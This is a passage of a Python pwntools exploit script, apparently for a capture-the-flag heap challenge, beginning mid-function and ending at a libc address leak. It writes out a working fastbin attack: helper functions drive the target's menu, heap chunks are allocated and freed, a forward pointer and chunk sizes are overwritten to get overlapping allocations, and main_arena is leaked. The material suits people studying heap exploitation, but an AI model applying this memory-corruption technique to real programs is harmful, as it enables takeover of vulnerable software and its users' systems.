 ```python
    p.recvuntil('Command: ')
    p.sendline('2')
    p.recv()
    p.sendline(str(idx))
    p.recv()
    p.sendline(str(len(payload)))
    p.recv()
    p.sendline(payload)
 
def free(idx):
    p.recvuntil('Command: ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
 
def dump(idx):
    p.recvuntil('Command: ')
    p.sendline('4')
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Content: \n")
 
# allocate 4 fastbin sized chunk + 1 smallbin sized chunk
alloc(0x20)
alloc(0x20)
alloc(0x20)
alloc(0x20)
alloc(0x80)
 
log.success('Allocation done')
 
# free chunk1, chunk2
free(1)
free(2)
 
log.success('Chunk1, Chunk2 free done')
 
# overwriting chunk2 fd (chunk1 -> chunk4)
payload = p64(0) * 5 + p64(0x31)
payload += p64(0) * 5 + p64(0x31)
payload += p8(0xc0)
 
fill(0, payload)
 
log.success('Fastbin fd overwriting done')
 
# overwriting chunk4 size
payload = p64(0) * 5 + p64(0x31)
fill(3, payload)
 
# allocate twice -> second malloc goes to chunk4
alloc(0x20)
alloc(0x20)
 
# restore chunk4 size & allocate chunk5 & free chunk4
payload = p64(0) * 5 + p64(0x91)
fill(3, payload)
alloc(0x80)
free(4)
log.success('Restored chunk4 size & Allocated chunk5 & Free chunk4')
 
# leak <main_arena+88>
dump(2)
```